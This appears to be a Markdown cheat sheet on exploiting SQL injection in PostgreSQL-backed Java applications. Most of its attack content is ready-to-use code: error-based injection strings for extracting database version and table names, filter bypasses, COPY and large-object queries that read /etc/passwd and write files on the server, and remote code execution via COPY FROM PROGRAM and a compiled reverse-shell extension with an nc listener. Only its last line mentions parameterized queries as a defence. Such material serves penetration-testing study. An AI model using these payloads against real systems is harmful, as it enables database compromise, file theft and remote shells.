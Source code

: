 ## Interacting with PostgreSQL

`psql -h <host> -U <username> <database>`

## Decompiling Java Archives

#### Fernflower

```bash
mkdir <OutputDirectory>
java -jar Fernflower.jar <Application>.jar <OutputDirectory>
cd <OutputDirectory>
jar -xf <Application>.jar
```

#### JD-GUI

`jd-gui <Application>.jar`

## Regex Patterns for Finding SQLi Vulnerabilities

```regex
SELECT|UPDATE|DELETE|INSERT|CREATE|ALTER|DROP
(WHERE|VALUES).*?'
(WHERE|VALUES).*" +
.*sql.*"
jdbcTemplate
```

## Live Debugging Java Applications

`java -Xdebug -Xrunjdwp:transport=dt_socket,address=8000,server=y,suspend=y -jar <Application>.jar`

## Enabling PostgreSQL Logging

`/etc/postgresql/13/main/postgresql.conf`
- Change `#logging_collector = off` to `logging_collector = on`
- `#log_statement = 'none'` to `log_statement = 'all'`
- Uncomment `#log_directory = '...'`
- Uncomment `#log_filename = '...'`

## Common Character Bypasses

- Use `/**/` instead of `space`
- Use `$$string$$` instead of `'string'`

## Error-Based SQL Injection

```sql
' and 0=CAST((SELECT VERSION()) AS INT)--
' and 1=CAST((SELECT table_name FROM information_schema.tables LIMIT 1) as INT)--
' and 1=CAST((SELECT STRING_AGG(table_name,',') FROM information_schema.tables LIMIT 1) as INT)--
';SELECT CAST(CAST(QUERY_TO_XML('SELECT ...',TRUE,TRUE,'') AS TEXT) AS INT)--
```

## Reading and Writing Files

#### Reading with COPY

```sql
CREATE TABLE tmp (t TEXT);
COPY tmp FROM '/etc/passwd';
COPY tmp FROM '/etc/hosts' DELIMITER E'\x07';
SELECT * FROM tmp;
DROP TABLE tmp;
```

#### Reading with Large Objects

```sql
SELECT lo_import('/etc/passwd');
SELECT lo_get(16513);
SELECT data FROM pg_largeobject WHERE loid=16513 AND pageno=0;
echo 726f6f743<SNIP> | xxd -r -p
```

#### Writing with COPY

```sql
CREATE TABLE tmp (t TEXT);
INSERT INTO tmp VALUES ('To hack, or not to hack, that is the question');
COPY tmp TO '/tmp/proof.txt';
DROP TABLE tmp;
```

#### Writing with Large Objects

```sql
split -b 2048 /etc/passwd
xxd -ps -c 99999999999 xaa
SELECT lo_create(31337);
INSERT INTO pg_largeobject (loid, pageno, data) VALUES (31337, 0, DECODE('726f6f74<SNIP>6269','HEX'));
SELECT lo_export(31337, '/tmp/passwd');
SELECT lo_unlink(31337);
```

## Command Execution

#### RCE with COPY

```sql
CREATE TABLE tmp(t TEXT);
COPY tmp FROM PROGRAM 'id';
SELECT * FROM tmp;
DROP TABLE tmp;
```

#### RCE with Extensions

```bash
sudo apt install postgresql-server-dev-13
gcc -I$(pg_config --includedir-server) -shared -fPIC -o pg_rev_shell.so pg_rev_shell.c
nc -nvlp 443
```

```sql
CREATE FUNCTION rev_shell(text, integer) RETURNS integer AS '/tmp/pg_rev_shell', 'rev_shell' LANGUAGE C STRICT;
SELECT rev_shell('127.0.0.1', 443);
```

## Defending Against SQL Injection

Use `parameterized queries`!